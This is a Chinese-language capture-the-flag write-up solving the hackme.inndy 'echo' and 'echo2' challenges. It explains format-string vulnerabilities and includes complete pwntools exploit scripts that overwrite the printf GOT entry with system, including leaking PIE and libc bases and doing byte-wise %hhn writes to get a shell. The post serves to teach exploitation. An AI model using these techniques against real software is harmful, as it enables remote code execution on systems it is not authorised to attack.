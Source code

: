 ```yaml
---
title: hackmeinndy_summer
date: 2019-09-22
categories:
- hackme.inndy
---
```


## 1. echo

1、checksec

![avatar](./1.png)

32位，只开启了NX

2、ida

![avatar](/2.png)

3、思路

由于没有开启PIE而且程序调用了system，所以可以直接拿到printf的got表地址和system的plt地址。

先找到s相对于printf是第几个参数，然后在这个地方，按照ctfwiki上面说的大数覆盖的方法，将printf的got表改成system的地址。       

或者直接用fmtstr_payload   

进入下一次循环的时候，输入'/bin/sh'，再次调用printf的时候实际上是调的system，s作为了system的参数。

![avatar](./3.png)


``` python
from pwn import *
#sh=process("./echo")
sh=remote('hackme.inndy.tw', 7711)
pause()

elf=ELF("./echo")

printf_got_addr=elf.got['printf']
system_plt_addr=elf.plt['system']

offset=7
payload=fmtstr_payload(offset,{printf_got_addr:system_plt_addr})
sh.sendline(payload)
sh.sendline('/bin/sh')

sh.interactive()

```

## 2. echo2

1、checksec

![avatar](./4.png)

64位，开启了PIE，无法直接获得printf和system的地址

2、ida64

![avatar](./5.png)

和echo差不太多

3、思路


要先找到程序本身的基址和libc的基址，由于要求可以不用hackme那个网站上的libc，就直接用的本地的。   

首先用gdb调试一下，会发现在栈上面有   
![avatar](./6.png)     
通过这两个地方可以找到程序在运行起来后的地址。   

接下来就是要去找string和这两个变量是printf的第几个参数 

```python
def test_leak():
    payload='A'*8
    for i in range(1,50):
        payload+='%'+str(i)+'$p'+'.'
    print payload
    sh.sendline(payload)
    print sh.recv()
```  

emmm好像要分两次输进去，分别找。

可以得到%6$p=0x4141414141414141,41和43是对应的main+74和__libc_main_start+231的地址。于是可以计算main和 __libc_main_start的真实地址。    
    
由于偏移量总是不变的，所以可以得到printf和system的真实地址，然后进行覆写。

```python
from pwn import *

sh=process("./echo2")
libc=ELF('./libc.so')
e=ELF('./echo2')


elf_offset=74
libc_offset=231

system_libc=libc.symbols['system']#找libc里面system的地址
libc_libc=libc.symbols['__libc_start_main']#找libc里面这个函数的地址，用来计算偏移量

printf_got_addr=e.got['printf']#找ELF文件里面的地址
main_elf=e.symbols['main']
print '**************************************'
print 'main_elf:'
print hex(main_elf)
print 'print_got_addr'
print hex(printf_got_addr)
print '**************************************'

#泄露真实内存地址
payload_leak='%41$p..%43$p..'
sh.sendline(payload_leak)

elf_base=int(sh.recvuntil('..',drop=True),16)-elf_offset#真实内存加载地址
libc_base=int(sh.recvuntil('..',drop=True),16)-libc_offset#真实libc加载地址

print '**************************************'
print 'elf_base:'
print hex(elf_base)
print 'libc_base:'
print hex(libc_base)
print '**************************************'

#printf的真实地址对于elf的基址的偏移量=printf的静态地址对elf静态加载的地址的偏移量
printf_addr=elf_base+printf_got_addr-main_elf
system_addr=libc_base+system_libc-libc_libc

print '**************************************'
print 'printf_addr:'
print hex(printf_addr)
print 'system_addr:'
print hex(system_addr)
print '**************************************'

#context.terminal=['deepin-terminal','-x','sh','-c']
#gdb.attach(sh)

add1=system_addr&0xff
add2=(system_addr>>8)&0xff
add3=(system_addr>>16)&0xff


#这里是因为，比如0x301020,在前一个输出了30个字符后，后面的10不可能通过%n的方式放进地址里面，所以要排序，先输出少的字符

addr={add1:printf_addr,add2:printf_addr+1,add3:printf_addr+2}
char=[add1,add2,add3]
char.sort()
#由于是64位，所有每8个字符对应一个机器字长，用zfill来确定%nc里面n的值，最后用'aaaa'来补足，使他成为机器字长的整数倍
#%m$hhn，是指在相对于printf是第m+1个参数的位置，将栈上的内容作为一个地址，向该地址写入，已经输出的字符的个数——写一个字节也就是8位，所以&0xff。
paylaod='%'+str(char[0]).zfill(3)+'c'+'%11$hhn'+'%'+str(char[1]-char[0]).zfill(3)+'c'+'%12$hhn'+'%'+str(char[2]-char[1]).zfill(3)+'c'+'%13$hhn'#12*4=36
paylaod+='aaaa'#36+4=40 所以6+40/5=11
paylaod+=p64(addr[char[0]])+p64(addr[char[1]])+p64(addr[char[2]])

sh.sendline(paylaod)

sh.sendline('/bin/sh')#不知道为啥写‘/bin/sh\x00'和'/bin/sh\0'报错

sh.interactive()
```

也可以用onegadget找到libc里面text段里面直接调用execute的地址，然后覆盖exit的地址为这个

# 3. 

1、可以在gdb里面用got看got表的地址。  

2、recvutill('.',drop=true),是指接受’.‘之前的数据并且不要’.‘。

3、64位的程序还要考虑寄存器的6个，但是这里本来就比6大

